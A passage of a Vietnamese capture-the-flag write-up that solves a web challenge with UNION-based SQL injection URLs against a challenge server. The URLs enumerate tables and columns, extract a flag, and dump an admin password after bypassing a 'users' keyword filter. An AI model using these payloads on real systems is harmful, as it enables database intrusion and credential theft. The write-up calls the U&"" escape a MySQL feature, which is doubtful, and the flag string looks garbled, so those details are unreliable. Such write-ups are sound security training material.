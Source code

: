 `http://45.122.249.68:20017/news.php?name=guest'+union+select+null,flag+from+secret--+-`

![](/W1CTF/minictf/images/dejavu1.png)

#### Part2:
Phần này chỉ cần lấy tên table, và cột table là tìm được flag:
- Lấy table_name: 
    - Payload: `http://45.122.249.68:20017/news.php?name=guest'+union+select+null,table_name from information_schema.tables-- -`
    - Tìm một xíu ta được table là `secret_8489498498112318_8489498498112318`
- Lấy column_name của table trên: 
    - Payload: `http://45.122.249.68:20017/news.php?name=guest'+union+select+null,column_name from information_schema.columns where table_name='secret_8489498498112318_8489498498112318'-- -`
    - Ta có được `column_name` chứa flag là `flag_5959595959408498_5959595959408498`

- Lấy flag:
    - Payload: `http://45.122.249.68:20017/news.php?name=guest'+union+select+null,flag_5959595959408498_5959595959408498 from secret_8489498498112318_8489498498112318-- -`

Ta có được part2 là `_part2`:

![](/W1CTF/minictf/images/dejavu2.png)

#### Part3:

Part3 của flag nằm ở table `users` nhưng ta bị filter từ khóa `users` trong lệnh query, do đó ta có thể nghĩ ngay đến hex encode trong mysql:
- `U&"\0075sers"` sẽ tương ứng với `"users"`, và trong mysql thì ta có thể thêm dấu `"` và tên table để query.

- Payload: `http://45.122.249.68:20017/news.php?name=guest'+union+select+null,password from U&"\0075sers" where username='admin'-- -`

![](/W1CTF/minictf/images/dejavu3.png)

Full flag: `W1_part1_part2_part③_ⓓⓔⓙⓐⓥⓤ_福🐳😁}`

### Simple Stuff
